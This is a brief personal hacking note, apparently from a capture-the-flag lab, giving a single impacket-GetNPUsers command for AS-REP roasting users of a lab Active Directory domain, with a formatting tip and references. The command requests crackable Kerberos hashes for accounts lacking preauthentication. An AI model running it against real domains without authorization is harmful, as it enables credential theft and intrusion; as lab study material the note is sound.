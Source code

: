 # impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

# References
- [20221003150600](/zet/20221003150600/README.md) impacket
- ~/kb/hacking/commands/impacket-commands.md

Tags:
    #assorted

